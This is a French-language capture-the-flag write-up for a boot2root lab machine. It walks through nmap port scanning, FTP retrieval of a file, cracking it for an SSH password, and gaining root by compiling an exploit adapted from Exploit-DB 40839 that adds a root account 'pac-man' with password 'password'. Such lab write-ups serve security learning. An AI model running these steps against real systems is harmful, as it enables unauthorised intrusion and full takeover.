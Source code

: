 # Writeup2

Nous avons utilisé docker et squashfs-tools pour extraire le file system depuis l'iso.<br>
`./setup.sh`<br>
`docker logs -f boot2root`

### Get open port

Pour récupérer l'ip de la machine il faut lancer le script `./ip_machine [VM_name]`.<br>
Grâce à nmap:  `nmap -p- $(./ip_machine [VM_name])` nous pouvons voir les ports ouverts:

- 21/tcp  open  ftp
- 22/tcp  open  ssh
- 80/tcp  open  http
- 143/tcp open  imap
- 443/tcp open  https
- 993/tcp open  imaps

### Connection FTP

Nous pouvons maintenant ce connecter en `ftp` avec ces identifiants.<br>
`ftp $(./ip_machine [VM_name])` et mettre les identifiants.<br>
Nous pouvons voir 2 fichiers `README` et `fun`.<br>

### Crack fun :D

Nous allons pouvoir récupérer le fichier `fun` : `get fun`.<br>
Lancer la commande `tar xf fun`.<br>
Maintenant nous pouvons lancer la commande `node crackFun ft_fun`.<br>

### Connection to SSH 

user: `laurie`<br>
mdp: `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

### Obtention de droits sudo

Copier le fichier: `breach.c`.<br>
avec: `scp breach.c laurie@$(../../ip_machine boot2root):`<br><br>
Compiler avec la commande: `gcc -pthread breach.c -o breach -lcrypt`.<br>
lancer l'exécutable avec: `./breach`.<br><br>
Un user `pac-man` à été ajouté avec le mot de passe `password`.<br>
Il est accessible avec:<br>
`su pac-man`<br>
`password`<br><br>
Réalise sur la base de: `https://www.exploit-db.com/exploits/40839`

### WE ARE ROOT

```
# id
uid=0(pac-man) gid=0(root) groups=0(root)
```
